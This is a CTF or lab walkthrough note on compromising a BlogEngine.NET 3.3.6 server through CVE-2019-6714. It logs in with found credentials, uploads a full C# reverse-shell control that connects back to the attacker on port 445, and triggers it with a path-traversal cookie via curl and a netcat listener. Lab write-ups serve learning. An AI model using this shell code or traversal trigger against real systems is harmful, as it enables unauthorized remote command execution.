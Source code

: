 
## Getting a new password from the Web Server

With the found credentials, you are able to log in as user guest on `http://MACHINE IP>/blog/Account/login.aspx?ReturnURL=/blog/admin/`.

![[image.png|317x423]]

After logging in you'll see

![[Screenshot from 2025-09-15 19-47-59.png]]

## Draft page

Go to `Draft pages` and read the page.

![[Screenshot from 2025-09-15 19-50-56.png]]

There's a pasword `Excal1burP@ss1337`.

## Accessing the Machine

### BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution

> [!Note]
>  CVE-2019-6714
>  Path traversal vulnerability leading to remote code execution.  This vulnerability affects BlogEngine.NET versions 3.3.6 and below.  This  is caused by an unchecked "theme" parameter that is used to override  the default theme for rendering blog pages.  The vulnerable code can   be seen in this file:  /Custom/Controls/PostList.ascx.cs.
 
More info: https://www.exploit-db.com/exploits/46353

#### Uploading the exploit

#Attacking_machine 
- Create a file called `PostView.ascx`with the following content.
```
<%@ Control Language="C#" AutoEventWireup="true" EnableViewState="false" Inherits="BlogEngine.Core.Web.Controls.PostViewBase" %>
<%@ Import Namespace="BlogEngine.Core" %>

<script runat="server">
	static System.IO.StreamWriter streamWriter;

    protected override void OnLoad(EventArgs e) {
        base.OnLoad(e);

	using(System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("<font color="#ff0000"><ATTACKING MACHINE></font>", 445)) {
		using(System.IO.Stream stream = client.GetStream()) {
			using(System.IO.StreamReader rdr = new System.IO.StreamReader(stream)) {
				streamWriter = new System.IO.StreamWriter(stream);
						
				StringBuilder strInput = new StringBuilder();

				System.Diagnostics.Process p = new System.Diagnostics.Process();
				p.StartInfo.FileName = "cmd.exe";
				p.StartInfo.CreateNoWindow = true;
				p.StartInfo.UseShellExecute = false;
				p.StartInfo.RedirectStandardOutput = true;
				p.StartInfo.RedirectStandardInput = true;
				p.StartInfo.RedirectStandardError = true;
				p.OutputDataReceived += new System.Diagnostics.DataReceivedEventHandler(CmdOutputDataHandler);
				p.Start();
				p.BeginOutputReadLine();

				while(true) {
					strInput.Append(rdr.ReadLine());
					p.StandardInput.WriteLine(strInput);
					strInput.Remove(0, strInput.Length);
				}
			}
		}
    	}
    }

    private static void CmdOutputDataHandler(object sendingProcess, System.Diagnostics.DataReceivedEventArgs outLine) {
   	StringBuilder strOutput = new StringBuilder();

       	if (!String.IsNullOrEmpty(outLine.Data)) {
       		try {
                	strOutput.Append(outLine.Data);
                    	streamWriter.WriteLine(strOutput);
                    	streamWriter.Flush();
                } catch (Exception err) { }
        }
    }

</script>
<asp:PlaceHolder ID="phContent" runat="server" EnableViewState="false"></asp:PlaceHolder>
```

> [!Note]
> Change in the previous code the <font color="#ff0000">ATTACKING MACHINE IP</font>. 
> Use port 445.



#Web_edito
- On the previous message where you got the password, there's an File Manager Icon. ![[Screenshot 2025-09-15 at 14-08-13 Excelibur (guest).png]]

- Enter and upload the `PostView.ascx` file.

![[Screenshot from 2025-09-15 20-11-22.png]]


#### Getting a reverse shell

#Attacking_machine 
- Open a netcat listener on port 445.
```
nc -lnvp 445
```


- Run the following code to connect to the listener.
```
<font color="#ff0000">curl -v --cookie "theme=../../App_Data/files/" http://</font><MACHINE IP>/blog/
```

![[Screenshot from 2025-09-16 12-45-33.png]]


#### Users

#Reverse_shell
- Run the following code to know the user and its privileges.

```
whoami
whoami /priv
```

![[Screenshot from 2025-09-16 20-28-09.png]]


![[Screenshot from 2025-09-16 20-21-37.png]]


- Run the following code to see whether there are more users or not.
```
cd c:\users && dir
```

![[Screenshot from 2025-09-16 20-33-09.png]]

There's another user called `kingarthy`.

**Next step:** [[SeImpersonatePrivilege]]



